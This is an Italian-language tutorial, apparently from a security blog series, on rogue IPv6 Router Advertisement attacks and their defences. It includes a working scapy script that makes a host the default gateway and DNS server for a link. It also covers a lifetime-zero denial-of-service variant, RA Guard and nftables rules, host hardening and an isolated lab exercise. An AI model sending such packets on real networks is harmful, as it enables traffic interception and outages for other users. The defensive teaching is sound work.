

## Perché conta

Su una rete IPv4 il gateway lo decide chi gestisce il DHCP. In IPv6 con [SLAAC]()
lo decide **chiunque sul link** mandi un **Router Advertisement (RA)**: un pacchetto ICMPv6 non autenticato,
che gli host accettano per default. Molte reti "solo IPv4" hanno in realtà IPv6 attivo sugli host (Windows,
macOS e Linux lo abilitano da soli), senza che nessuno lo monitori: un attaccante nella stessa VLAN può
diventare il default gateway di tutti, intercettare il traffico o rompere la connettività.

È la versione IPv6 di ciò che [ARP spoofing]() fa in IPv4, e le
difese stanno allo stesso livello: il primo hop, cioè lo switch di accesso. Il catalogo delle minacce è in RFC 3756.

## Come funziona

**Neighbor Discovery Protocol (NDP, RFC 4861)** sostituisce ARP e parte di DHCP con cinque messaggi ICMPv6:
Router Solicitation (RS, tipo 133), Router Advertisement (RA, 134), Neighbor Solicitation (NS, 135),
Neighbor Advertisement (NA, 136) e Redirect (137). Un host appena connesso manda un RS a `ff02::2`;
i router rispondono con un RA che porta prefisso, lifetime e flag.



Non c'è nessuna autenticazione: l'host si fida del primo (o del più "preferito") RA che vede. Esiste **SEND**
(RFC 3971), che firma i messaggi con certificati, ma il supporto nei sistemi operativi è praticamente assente.

Anche la scansione cambia. In IPv4 una /24 si esplora in secondi; una /64 contiene $2^{64}$ indirizzi e, a
$10^6$ probe al secondo, serve un tempo di

$$
t = \frac{2^{64}}{10^{6}\ \text{s}^{-1}} \approx 1{,}8\times10^{13}\ \text{s} \approx 5{,}8\times10^{5}\ \text{anni}
$$

Per questo lo scanning cieco non funziona, ma l'attaccante sul link non ne ha bisogno: basta il multicast
`ff02::1` (tutti i nodi) per enumerare gli host che rispondono.

## L'attacco

Un rogue RA si crea in poche righe con scapy (da usare solo nel proprio lab, vedi sotto):

```python
from scapy.all import *

ra = (IPv6(src="fe80::bad:1", dst="ff02::1") /
      ICMPv6ND_RA(routerlifetime=1800, prf=1) /          # prf=1 -> High
      ICMPv6NDOptSrcLLAddr(lladdr="02:00:00:00:00:66") /
      ICMPv6NDOptPrefixInfo(prefix="2001:db8:bad::", prefixlen=64,
                            L=1, A=1, validlifetime=86400, preferredlifetime=14400) /
      ICMPv6NDOptRDNSS(dns=["2001:db8:bad::53"], lifetime=1800))   # DNS controllato

send(ra, iface="eth0", loop=1, inter=5)
```

Gli effetti sulla vittima si vedono subito:

```bash
$ ip -6 route show default
default via fe80::bad:1 dev eth0 proto ra metric 1024 expires 1796sec pref high
$ resolvectl dns eth0
Link 2 (eth0): 2001:db8:bad::53
```

Il traffico passa dall'attaccante, che può fare NAT66 e leggere tutto, oppure semplicemente scartarlo. Il
secondo scenario è un DoS: un RA con `routerlifetime=0` fa **cancellare** il vero default router dagli host.
Non serve nemmeno la malizia: uno smartphone con tethering o un Windows con Internet Connection Sharing che
emette RA per errore produce lo stesso disastro. Gli indirizzi sopra sono di documentazione (RFC 3849).

## La difesa

Le contromisure vanno applicate **in profondità**, dallo switch fino all'host.

**1. RA Guard sullo switch (RFC 6105).** Le porte di accesso scartano gli RA in ingresso; solo le porte
verso il router li possono inoltrare. Esempio in stile Cisco IOS:

```text {hl_lines=[1,3,8,9]}
ipv6 nd raguard policy HOST-ONLY
 device-role host
!
ipv6 nd raguard policy ROUTER-PORT
 device-role router
!
interface range GigabitEthernet1/0/1 - 40
 ipv6 nd raguard attach-policy HOST-ONLY
interface GigabitEthernet1/0/48
 ipv6 nd raguard attach-policy ROUTER-PORT
```

**2. Su un bridge Linux** (il lab usa Open vSwitch o un bridge semplice) lo stesso risultato si ottiene con
nftables. Le porte di accesso non devono emettere RA né Redirect:

```nginx {hl_lines=[6,7]}
table bridge raguard {
  chain forward {
    type filter hook forward priority -200; policy accept;

    # le porte utente non possono comportarsi da router
    iifname "veth-user*" icmpv6 type { nd-router-advert, nd-redirect } \
        log prefix "RA-GUARD " counter drop
    iifname "veth-user*" ip6 saddr != fe80::/10 icmpv6 type nd-neighbor-advert counter drop
  }
}
```

Gli attaccanti più furbi aggirano i filtri con **extension header** o frammentazione, per cui l'ICMPv6 non è
nella posizione attesa: per questo RFC 6980 vieta la frammentazione di NDP, e RA Guard "evoluto" ispeziona la
catena degli header. Verifica che lo switch che compri lo faccia.

**3. Hardening dell'host.** Dove la rete è statica, spegni l'accettazione degli RA, oppure disabilita
IPv6 se davvero non lo usi (ma meglio governarlo che ignorarlo):

```bash
sysctl -w net.ipv6.conf.all.accept_ra=0
sysctl -w net.ipv6.conf.all.accept_redirects=0
```

**4. Visibilità.** Un RA che non viene dal MAC del tuo router è un evento da allertare: `ndpmon` o una regola
[Suricata]() su `icmpv6.type == 134` e i log di RA Guard verso il
[SIEM](). Per il quadro completo dei controlli sul primo hop vedi RFC 9099.

## Lab

Con [containerlab e Open vSwitch](): tre nodi Linux (`victim`,
`attacker`, `router` con radvd) collegati a uno switch OVS, tutto isolato da Internet.

1. Sul `victim` verifica il default route con `ip -6 route`.
2. Dall'`attacker` lancia lo script scapy e osserva il cambio di gateway sul `victim`.
3. Applica le regole nftables sul bridge e ripeti l'attacco.
4. Perché `accept_ra=0` sul solo `victim` non risolve il problema della rete?


<details><summary>Soluzione</summary>
<p>Dopo il punto 2 il <code>victim</code> mostra <code>default via fe80::bad:1 ... pref high</code>. Dopo il
punto 3 la tabella resta invariata e il contatore della regola <code>RA-GUARD</code> sale a ogni RA inviato:
l'attacco è filtrato al primo hop.</p>
<p>Punto 4: <code>accept_ra=0</code> protegge solo quell'host. Gli altri continuano ad accettare RA falsi, e un
host con IPv6 senza gateway statico perde la connettività legittima. La difesa corretta è a livello di
rete (RA Guard sulle porte di accesso), con l'hardening dell'host come seconda linea.</p>
</details>


## Conclusione

IPv6 non è meno sicuro di IPv4, ma ha altri punti deboli, e il più comune è la fiducia implicita in NDP.
Il rogue RA è semplice da lanciare, anche per errore, e altrettanto semplice da bloccare se si filtra sul
primo hop. La regola: **se non lo gestisci, spegnilo; se lo gestisci, filtralo sulle porte di accesso e
monitoralo**.

**Prossimo nella serie:** [Certificate Transparency]() · [Torna alla roadmap]()
